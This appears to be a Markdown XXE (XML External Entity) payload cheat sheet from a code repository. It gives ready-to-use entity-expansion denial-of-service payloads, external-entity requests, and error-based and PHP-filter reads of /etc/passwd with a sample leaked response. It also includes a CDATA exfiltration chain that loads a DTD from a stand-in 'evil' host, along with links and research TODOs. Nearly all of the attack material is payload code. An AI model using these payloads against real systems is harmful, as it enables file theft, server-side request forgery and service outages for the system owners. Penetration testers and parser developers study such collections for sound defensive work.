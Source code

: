 # Payloads:

#### Simple Example

```
<?xml version="1.0"?>
<!DOCTYPE example SYSTEM "example.dtd" [
  <!ENTITY xml "Extensible Markup Language">
]>
<example> &xml; </example>
```

#### DOS

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

<?xml version="1.0"?>
<!DOCTYPE kaboom [
  <!ENTITY a "aaaaaaaaaaaaaaaaaa...">
]>
<boom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...</boom>

<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol1 "&lol2;">
  <!ENTITY lol2 "&lol1;">
]>
<lolz>&lol1;</lolz>

<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "file:///dev/urandom">  <!-- or /dev/random -->
]>
<root>&external;</root>
```

#### General Entity External Request Test

```
<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "http://x.x.x.x:443/test.txt">
]>
<root>&external;</root>
```

#### Parameter Entity External Request Test

```
# Ref: https://github.com/lsh123/xmlsec/issues/43
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % external SYSTEM "http://192.168.3.1/evil.dtd"> %external;
]>
```

### Extraction via Error Response

In the case where the web server displays an error, try to dump contents using the error response:

```
# Ref: https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 '<!ENTITY % external SYSTEM "file:///nothere/%payload;">'> %param1; %external;

# Example response
<?xml version="1.0" encoding="UTF-8"?><root>
<errors>
<errorMessage>java.io.FileNotFoundException: file:///nothere/root:x:0:0:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```

### PHP Exfil via base64

```
# Ref: http://www.informit.com/articles/article.aspx?p=24992&seqNum=5
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
```

### Exfil via CDATA

```
<!DOCTYPE updateProfile [
  <!ENTITY % file SYSTEM "file:///has/broken/xml">
  <!ENTITY % start "<![CDATA[" >
  <!ENTITY % end "]]>" >
  <!ENTITY % dtd SYSTEM "http://evil/join.dtd">
  %dtd;
]>
...
<lastname>&all;</lastname>

# join.dtd
<!ENTITY all "%start;%file;%end;">
```

# Caveats / Gotchas

* Sometimes servers are behind firewalls, so send requests on port 80 by default [1]
* Linefeeds & special characters get in the way, request:
  * `/etc/hostname` [1]
* Load balancers can send different responses [1]

# Useful Links:

* Simple server: `python -m SimpleHTTPServer 8080`
* Definitions:
  * [DTD Overview](http://www.informit.com/articles/article.aspx?p=24992&seqNum=5)
  * [General Entity & Parameter Entity Declarations](http://xmlwriter.net/xml_guide/entity_declaration.shtml)
  * [Attack Overview](https://www.owasp.org/images/5/58/XML_Based_Attacks_-_OWASP.pdf)
  * [Compendium of Known Techniques](https://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf) - details of platform impelementations
  * [Basic how to white paper](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf)

* Payloads:
  * [20+ DTD Cheat Sheet payloads](https://web-in-security.blogspot.ca/2016/03/xxe-cheat-sheet.html)
  * [~10 XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

# Future Research:

* TODO:
  * dump info from this document: https://web-in-security.blogspot.ca/2016/03/xxe-cheat-sheet.html
  * Investigate: https://github.com/enjoiz/XXEinjector
* SSRF - Server Side Request Forgery
* XML Schema Poisoning
* Schema SSRF
* XPath Injection
* NDATA - how does this work?
* Modify Content-Type header: `Content-Type: application/xml`
* Notation -> http://www.informit.com/articles/article.aspx?p=24992&seqNum=5

# References

* [1](https://web-in-security.blogspot.ca/2014/11/detecting-and-exploiting-xxe-in-saml.html)
